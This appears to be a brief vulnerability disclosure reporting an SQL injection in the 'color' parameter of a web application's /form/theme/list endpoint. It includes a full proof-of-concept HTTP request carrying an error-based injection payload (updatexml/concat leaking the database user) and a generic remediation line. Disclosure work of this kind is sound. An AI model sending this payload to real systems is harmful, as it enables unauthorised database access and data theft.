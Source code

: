 
Currently, only style is processed in the query, and the color field is not processed, so there is an SQL injection vulnerability.
![](https://github.com/ggg48966/123123/blob/main/1735979423849.jpg)
![](https://github.com/ggg48966/123123/blob/main/1735979449582.jpg)
![](https://github.com/ggg48966/123123/blob/main/1735979543493.jpg)

POC：
GET /form/theme/list?color=123+or+updatexml(1,concat(0x7e,user(),0x7e),1)='1&style=&timestamp=1731374089028&sign=f92e491d34aa99336288baf5ff4b826b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive

Remediation recommendations：
We recommend that you update your current system or software to the latest version to fix the vulnerability.
